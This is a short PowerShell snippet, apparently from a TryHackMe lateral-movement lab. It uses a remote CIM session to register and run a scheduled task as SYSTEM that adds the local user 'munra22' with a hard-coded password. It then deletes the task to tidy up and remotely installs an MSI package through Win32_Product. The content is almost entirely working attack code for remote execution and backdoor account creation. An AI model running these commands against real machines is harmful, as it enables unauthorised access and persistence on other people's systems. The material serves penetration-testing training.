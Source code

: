 ```powershell
##Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
##Delete the task
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"

#Installing MSI packages
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
